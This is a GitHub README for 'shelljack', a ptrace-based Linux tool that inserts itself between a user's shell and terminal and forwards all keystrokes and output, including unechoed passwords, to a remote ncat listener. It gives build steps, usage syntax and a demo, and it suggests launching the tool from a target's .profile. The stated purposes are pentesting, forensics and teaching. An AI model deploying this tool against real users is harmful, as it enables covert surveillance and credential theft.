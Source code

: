 # shelljack #

_shelljack_ is a [computer surveillance](http://en.wikipedia.org/wiki/Computer_surveillance) tool designed to capture [Linux](http://en.wikipedia.org/wiki/Linux) [command-line](http://en.wikipedia.org/wiki/Command_line) interactions in real-time.

**What exactly is "shelljacking"?**

This is the term I use to describe a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudo_terminal) [mitm attack](http://en.wikipedia.org/wiki/Man-in-the-middle_attack). This technique embeds the attacker between the target user and their [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29). From this position the attacker is able to inspect and capture all [I/O](http://en.wikipedia.org/wiki/I/o) as it crosses the terminal. This is similar to a [keystroke logger](http://en.wikipedia.org/wiki/Keystroke_logging), but will also return the output from the command line as well. In addition to the data being captured, it is also forwarded to a [remote listener](http://en.wikipedia.org/wiki/Netcat) for analysis in real time. 

This embedded position allows the attacker to capture *all* of the traffic that crosses the terminal. *This includes child processes and ssh sessions to other hosts!*

**That's awesome! [1337 h4X0rZ rUL3!!](http://hackertyper.com/)**

While I do think it's pretty neat, this really isn't ["hacking"](http://en.wikipedia.org/wiki/Hacker_%28computer_security%29). There are no exploits here. _shelljack_ takes advantage of some Linux [deep magic](http://lxr.linux.no/#linux+v3.9.6/kernel/ptrace.c) that is completely legitimate, although often not well understood. In order to shelljack a target, you will need the appropriate permissions to do so. 

While this may not be a ["sploit"](http://en.wikipedia.org/wiki/Sploit), it is a very handy tool designed to empower [forensic analysts](http://en.wikipedia.org/wiki/Computer_forensics), [pentesters](http://en.wikipedia.org/wiki/Pentester), and educators.

**Is this a [kernel module](http://en.wikipedia.org/wiki/Kernel_module)?**

No. _shelljack_ is a [user space](http://en.wikipedia.org/wiki/User_space) tool.

**Do I need to be root to use it?**

No. You need "appropriate permissions". This means that you will need the ability to execute code on the target host either as root or as the target user. 

**When would I ever need this?**

* As a forensic analyist, you can use _shelljack_ to perform surveillance on the target of your investigation (after you've recieved the appropriate authority to do so from the heads of your Security, Legal, and HR teams, of course.)
* As a pentester who has gained execution as a user, you can now shelljack that account for further reconnaissance and credential harvesting.
* As a sysadmin, or other educator, _shelljack_ is useful for publicly demonstrating the importance of sane file permissions as well as other system configuration issues.

**How does it work?**

_shelljack_ is a [malicious](http://en.wikipedia.org/wiki/Malware) [terminal emulator](http://en.wikipedia.org/wiki/Terminal_emulator) that uses [ptrace](http://en.wikipedia.org/wiki/Ptrace) to insert itself between a shell and it's [controlling tty](https://github.com/emptymonkey/ctty).

**Please tell me more about this [deep magic](http://en.wikipedia.org/wiki/Deep_magic) of which you speak!**

* ptrace is the debugging interface provided by the Linux kernel. It is a *very* powerful tool. It is also very good at forcing you to *really* understand the inner workings of a Linux process when you try to use it. The best introduction I've seen comes in the form of two articles by Pradeep Padala dating back to 2002: [Playing with ptrace, Part I](http://www.linuxjournal.com/article/6100) and [Playing with ptrace, Part II](http://www.linuxjournal.com/article/6210)

* A solid understanding of [tty](http://en.wikipedia.org/wiki/Tty_%28Unix%29) fundamentals is necessary to fully understand and leverage the command line. The best tutorial on this topic is easily [The TTY demystified](www.linusakesson.net/programming/tty/) by [Linus Åkesson](http://www.linusakesson.net/pages/me.php). 

**What Architectures / OSs will this run on?**

Currently, _shelljack_ will only run on x86_64 Linux. Because _shelljack_ uses the Linux ptrace interface to inject assembly language [syscalls](http://en.wikipedia.org/wiki/Syscall) into a target process, nothing here is portable. That said, check out my other project, [_ptrace_do_](https://github.com/emptymonkey/ptrace_do). If I get around to supporting _ptrace_do_ for other architectures, then porting _shelljack_ shouldn't be too hard.

# Usage #

	empty@monkey:~$ shelljack --help
	usage: shelljack LISTENER:PORT PID
		LISTENER:	Hostname or IP address of the listener.
		PORT:	Port number that the listener will be listening on.
		PID:	Process ID of the target process.

In order to properly mitm the [signals](http://en.wikipedia.org/wiki/Unix_signal) generated by the controlling tty, _shelljack_ must detach from it's original launch terminal. Because of this, you'll need to set up a listener to catch its eavesdropped output. [Ncat](http://nmap.org/ncat/) works nicely for this. (We've chosen localhost and port 9999 here, but _shelljack_ will happily use any [address](http://linux.die.net/man/3/getaddrinfo) that the machine will route.)

Let's do a demo. I'll be running the [tty](http://linux.die.net/man/1/tty) command in these examples to demonstrate which terminal the various commands are being run in.

Start by setting up a listener:

	empty@monkey:~$ tty
	/dev/pts/0
	empty@monkey:~$ while [ 1 ]; do ncat -l localhost 9999; done

Since this is a demo, let's also examine the shell we want to target:

	empty@monkey:~$ tty
	/dev/pts/3
	empty@monkey:~$ echo $$
	19716
	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:17 0 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 1 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 2 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 255 -> /dev/pts/3

Now, launch _shelljack_ against the target shell:

	empty@monkey:~$ tty
	/dev/pts/2
	empty@monkey:~$ shelljack localhost:9999 19716

That was it! If we go back to the listener, we will now see all of the I/O come through the listener as it is typed into the target shell. For further evidence of this, lets examine the target shell again:

	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:17 0 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 1 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 2 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 255 -> /dev/pts/4
	empty@monkey:~$ ps j -u empty | grep $$
	19714 19716 19716 19716 pts/4    19867 Ss    1000   0:00 -bash
	    1 19782 19782 19782 pts/3    19782 Ss+   1000   0:00 shelljack localhost 9999 19716

We can see that _shelljack_ has successfully taken over /dev/pts/3, and is serving up /dev/pts/4 for the target shell to consume. It is now in place to collect the traffic and happily forward you a copy of everything it sees, including input which normally wouldn't be ["echoed"](http://linux.die.net/man/1/stty) to the terminal at all. (e.g. passwords)

Also note, _shelljack_ was designed with the ability to attack the shell that launches it. This makes it ideal to call from the target's login [configuration files](http://en.wikipedia.org/wiki/Unix_shell#Configuration_files_for_shells). (e.g. .profile)

	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:33 0 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 1 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 2 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 255 -> /dev/pts/3
	empty@monkey:~$ shelljack localhost:9999 $$
	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:33 0 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 1 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 2 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 255 -> /dev/pts/4

# Prerequisites #

To help with the heavy lifting, I've written two supporting libraries that are both needed by _shelljack_:

* [_ptrace_do_](https://github.com/emptymonkey/ptrace_do): A ptrace library for easy syscall injection in Linux.
* [_ctty_](https://github.com/emptymonkey/ctty): A library and tool for discovering and mapping Controlling TTYs in Linux.

In addition, I've also written another tool that isn't needed by _shelljack_, but helps with tty forensics. 

* [_dumb_](https://github.com/emptymonkey/dumb): A simple tool for stripping control characters and escape sequences from terminal output in Unix/Linux.

# Installation #

	git clone git@github.com:emptymonkey/ptrace_do.git
	cd ptrace_do
	make
	cd ..

	git clone git@github.com:emptymonkey/ctty.git
	cd ctty
	make
	cd ..

	git clone git@github.com:emptymonkey/shelljack.git
	cd shelljack
	make

# Limitations #

As noted in the [tty_ioctl](http://linux.die.net/man/4/tty_ioctl) [manpage](http://en.wikipedia.org/wiki/Manpage), an existing process can only switch controlling ttys if it is a session leader. Because of this, while _shelljack_ will be successful against the shell itself, any *existing* child processes will not be able to switch with it. They won't usually die during the shelljacking, but their I/O will act strangely if it relies on the tty. It is best to target shells that are semi-idle, or attack them during the login process. Note that this only affects child processes that exist at the time of the attack. New processes will inherit their parents (shelljacked) [file descriptors](http://en.wikipedia.org/wiki/File_descriptor).

# Similar Works #

While _shelljack_ was written independent of any other codebase, I did come across several other projects during my research that use similar techniques. These projects explore both ptrace code injection as well as terminal mangling. If this is an area that interests you, these projects are worth studying.

* [retty](http://pasky.or.cz/dev/retty/) is a tiny tool that lets you attach processes running on other terminals.
* [neercs](http://caca.zoy.org/wiki/neercs) allows you to detach a session from a terminal.
* [injcode](https://github.com/ThomasHabets/injcode) injects code into a running process.
* [reptyr](http://blog.nelhage.com/2011/02/changing-ctty/) takes a process that is currently running in one terminal, and transplants it to a new terminal.
